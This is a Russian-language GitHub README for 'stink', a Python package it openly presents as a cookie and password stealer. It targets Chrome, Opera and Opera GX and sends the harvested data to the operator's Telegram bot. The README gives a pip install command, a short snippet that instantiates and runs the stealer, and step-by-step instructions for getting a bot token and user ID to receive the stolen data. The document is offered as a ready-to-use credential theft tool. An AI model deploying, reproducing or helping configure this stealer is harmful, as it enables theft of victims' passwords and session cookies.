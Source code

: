 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot``` .
<p align="left">
  <a href="">
    <img src="docs/1.png" width="500px" style="display: inline-block;">
  </a>
</p>
3. Прописываем название бота с прикладкой ```_bot``` в конце.
<p align="left">
  <a href="">
    <img src="docs/2.png" width="500px" style="display: inline-block;">
  </a>
</p>
4. Прописываем команду ```/token``` , затем название бота с прикладкой ```@``` в начале.
<p align="left">
  <a href="">
    <img src="docs/3.png" width="500px" style="display: inline-block;">
  </a>
</p>
5. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start``` .
<p align="left">
  <a href="">
    <img src="docs/4.png" width="500px" style="display: inline-block;">
  </a>
</p>
4. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
